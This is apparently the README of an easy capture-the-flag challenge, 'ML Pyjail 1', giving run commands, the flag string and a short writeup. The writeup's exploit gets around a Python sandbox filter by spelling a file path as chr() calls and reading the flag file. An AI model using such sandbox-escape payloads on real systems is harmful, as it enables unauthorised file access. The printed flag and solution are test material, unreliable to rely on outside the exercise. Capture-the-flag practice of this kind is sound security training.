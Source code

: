 # ML Pyjail 1

> Warning:
>
> Need to change the flag to fake flag

### How to run ?

```shell
docker-compose up
```
#### Linux

```shell
netcat localhost 4444
```

#### Windows
```powershell
ncat.exe localhost 4444
```

### Description

An AI-powered fortress guards a treasure trove of forbidden knowledge. Legends speak of a mystical combination of Machine Learning and Python code, interwoven with an impenetrable pyjail defense mechanism. Your mission, should you accept it, is to breach this formidable barrier and unearth the secrets hidden within. Good luck


Flag Format: PCTF{}

### Flag
PCTF{M@chin3_1earning_d0_be_tR@nsformati0na1_1818726356}

### Difficulty
2/10 (Very Easy)

### Author
sans909 (Sanskar)


### Tester
- Txnn3r (Tanner Leventry)


### Writeup

```python
a = './Mljail/flag.txt'
s = ""
for c in a:
  s += f"chr({str(ord(c))})+"
print(s[:-1])
```

Exploit:
```python
print(open(chr(46)+chr(47)+chr(77)+chr(76)+chr(106)+chr(97)+chr(105)+chr(108)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116), 'r').read())
```

# Data Retrieved From

- https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes
